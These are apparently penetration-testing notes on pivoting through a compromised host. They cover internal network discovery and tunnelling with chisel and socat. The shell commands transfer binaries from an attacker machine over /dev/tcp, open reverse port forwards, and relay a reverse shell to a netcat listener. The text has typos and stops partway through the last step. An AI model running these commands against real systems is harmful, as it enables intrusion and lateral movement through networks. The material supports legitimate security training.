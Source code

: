 # Pivoting {-}

**Pivoting** is a technic that comes when attacker already took access to a first victim and see that this victim machine have access to other machines that attacker can
not connect to. Let's see an example:

Attacker gain access to the machine 10.10.10.10 and looking at his ifconfig he see someting like the following:

```bash
enp0s10f1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.10  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  

enp0s20f2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 20.20.20.10  netmask 255.255.255.0  broadcast 20.20.20.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  
```

At this moment attacker try to ping the victim machine at his second ip (20.20.20.20) and the ping don't respond. That's because Attacker don't have access to this network.
The only way he have is to use the victim machine to do a network discovery for the 20.20.20.0/24 network. On the victim machine he can for example do a 
`fping -a -g 20.20.20.0/24 2>/dev/null` or a `nmap -sn 20.20.20.0/24` (also a personal script if no other possiblity exists). 
Attacker see that another machine exists in this network segment. The 20.20.20.20 has been discovered with port 80 and 22. Because Attacker can not access to this machine,
he have to use the 10.10.10.10 to make a reverse port forwarding of the 20.20.20.20:80 and 20.20.20.20:22 to the ports of the attacker machine. That's pivoting

Here for the notes we will have special nomenclature:  

- 20.20.20.20 -> **victim machine**  
- 10.10.10.10 -> **pivoting machine**  
- attacker -> **attacker machine**  


## Pivoting with chisel {-}

1. Get chisel and build  

    ```bash
    git clone https://github.com/jpillora/chisel
    cd chisel
    go blid -ldflags "-s -w" .
    upx brute chisel
    ```

1. Send Chisel binary to the pivoting machine  

    - on attacker machine  

        ```bash
        md5sum chisel
        nc -nlvp 443 < chisel
        ```
    
    - on pivoting machine  

        ```bash
        cat > chisel < /dev/tcp/<attacker ip>/443
        md5sum chisel
        chmod +x chisel
        ```

1. Create reverse port forwarding with the victim machine ports to bind attacker machine ports  

    - on attacker machine  

        ```bash
        ./chisel server --reverse -p 1234
        ```
    
    - on pivoting machine  

        ```bash
        ./chisel client <attacker ip>:1234 R:127.0.0.1:80:<victim ip>:80 R:127.0.0.1:222:<victim ip>:22
        ```

1. Now attacker can check the web app on localhost:80 or use the ssh to 127.0.0.1 -p 222

## Pivoting with socat {-}

1. Get socat static binary  

    ```bash
    wget https://github.com/aledbf/socat-static-binary/releases/download/v.0.0.1/socat-linux-amd64
    ```

1. Send sockat to pivoting machine  

    - on attacker machine  

        ```bash
        md5sum socat
        nc -nlvp 1111 < socat
        ```
    
    - on pivotin machine  

        ```bash
        cat > socat < /dev/tcp/<attacker ip>/1111
        md5sum socat
        chmod +x socat
        ```

1. Prepare attacker machine for listenning  

    ```bash
    nc -nlvp 7979
    ```

1. Tuneling tcp data for reverse shell from victim to the attacker  

    - on pivoting machine  

    ```bash
    ./socat TCP-LISTEN:4545,fork tcp:<attacker ip>:7979 &
    ```

1. Reverse shell from victim to pivoting machine on 4545 port  
